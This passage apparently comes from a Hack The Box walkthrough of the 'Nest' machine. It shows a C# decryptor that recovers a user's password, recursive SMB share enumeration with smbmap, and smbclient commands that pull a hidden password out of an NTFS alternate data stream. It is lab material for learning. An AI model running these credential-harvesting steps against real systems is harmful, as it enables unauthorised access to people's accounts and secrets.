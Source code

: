 To compile and run a `C#` script on Linux, we can use `mono` (to install, enter `sudo apt-get install mono-complete`):
```
kali@kali:~/htb/boxes/nest$ mcs -out:decrypt.exe decrypt.cs 
kali@kali:~/htb/boxes/nest$ mono decrypt.exe 
xRxRxPANCAK3SxRxRx
```  
With `Carl`'s password, we can now further enumerate SMB shares as `c.smith`. Remember we had a clue to look inside `Carl`'s home directory? Let's go check that out in the `Users` SMB share:
```
kali@kali:~/htb/boxes/nest/smb/demo/c.smith-users$ smbmap -H nest.htb -u c.smith -p 'xRxRxPANCAK3SxRxRx' -R "Users"
[+] IP: nest.htb:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Users                                                   READ ONLY
        .\Users\*
        dr--r--r--                0 Sat Jan 25 15:04:21 2020    .
        dr--r--r--                0 Sat Jan 25 15:04:21 2020    ..
        dr--r--r--                0 Fri Aug  9 08:08:23 2019    Administrator
        dr--r--r--                0 Sat Jan 25 23:21:44 2020    C.Smith
        dr--r--r--                0 Thu Aug  8 10:03:29 2019    L.Frost
        dr--r--r--                0 Thu Aug  8 10:02:56 2019    R.Thompson
        dr--r--r--                0 Wed Aug  7 15:56:02 2019    TempUser
        .\Users\C.Smith\*
        dr--r--r--                0 Sat Jan 25 23:21:44 2020    .
        dr--r--r--                0 Sat Jan 25 23:21:44 2020    ..
        dr--r--r--                0 Thu Aug  8 16:06:17 2019    HQK Reporting
        fr--r--r--               32 Sat Jan 25 23:21:44 2020    user.txt
        .\Users\C.Smith\HQK Reporting\*
        dr--r--r--                0 Thu Aug  8 16:06:17 2019    .
        dr--r--r--                0 Thu Aug  8 16:06:17 2019    ..
        dr--r--r--                0 Fri Aug  9 05:18:42 2019    AD Integration Module
        fr--r--r--                0 Thu Aug  8 16:08:16 2019    Debug Mode Password.txt
        fr--r--r--              249 Thu Aug  8 16:09:05 2019    HQK_Config_Backup.xml
        .\Users\C.Smith\HQK Reporting\AD Integration Module\*
        dr--r--r--                0 Fri Aug  9 05:18:42 2019    .
        dr--r--r--                0 Fri Aug  9 05:18:42 2019    ..
        fr--r--r--            17408 Wed Aug  7 16:42:49 2019    HqkLdap.exe
```
From here, you can grab `user.txt`, but let's not get too happy cos we ain't got a shell yet.

### HQK with Debug Mode Password
Notice that we've got a password file to look at - `Debug Mode Password.txt`. We'd jump for joy, only to notice that it's an empty file with size zero, and if you download it and ran the `strings` command on it, you'd still find nothing. 
  
  
I was helped out by a comment in the HTB forums to look into SMB alternate data streams. I looked it up, and found a useful post on stackoverflow that describes [how to view such streams](https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux):
```
kali@kali:~/htb/boxes/nest/smb/demo/c.smith-users$ smbclient \\\\nest.htb\\Users -U c.smith%xRxRxPANCAK3SxRxRx -c 'allinfo "C.Smith\HQK Reporting\Debug Mode Password.txt"'
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 04:06:12 PM 2019 PDT
access_time:    Thu Aug  8 04:06:12 PM 2019 PDT
write_time:     Thu Aug  8 04:08:17 PM 2019 PDT
change_time:    Thu Aug  8 04:08:17 PM 2019 PDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```
```
kali@kali:~/htb/boxes/nest/smb/demo/c.smith-users$ smbclient \\\\nest.htb\\Users -U c.smith%xRxRxPANCAK3SxRxRx -c 'get "C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA"'
```